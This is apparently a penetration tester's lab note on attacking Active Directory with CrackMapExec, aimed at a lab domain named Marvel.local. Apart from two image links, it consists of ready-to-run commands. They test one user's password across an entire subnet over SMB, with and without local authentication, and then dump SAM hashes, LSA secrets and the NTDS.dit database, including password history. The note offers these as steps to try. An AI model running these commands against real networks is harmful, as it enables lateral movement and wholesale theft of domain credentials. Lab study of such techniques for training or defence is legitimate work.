 - - -
## Explaination : 

![Imgur](https://i.imgur.com/Eem23wJ.png)

![Imgur](https://i.imgur.com/IgJe7oo.jpg)

- - -
## Attacking Steps : {ssh,ldap,mssql,smb,winrm}: 

#### If you know the Password : 

```bash
cme smb 10.10.10.0/24 -u Thor -d Marvel.local  -p Password1 
cme smb 10.10.10.0/24 -u Thor -d Marvel.local  -p Password1 --local-auth 
```

Then use this : [[_Active Directory/Gaining Shells/Basic]]

#### Must Try ( Sometimes works Maybe you got Lucky ) : 

```sh
cme smb 10.10.10.0/24 -u Thor -d Marvel.local -p Password1 --sam
cme smb 10.10.10.0/24 -u Thor -d Marvel.local -p Password1 --lsa
cme smb 10.10.10.0/24 -u Thor -d Marvel.local -p Password1 --ntds
cme smb 10.10.10.0/24 -u Thor -d Marvel.local -p Password1 --ntds-history
```


- - - 

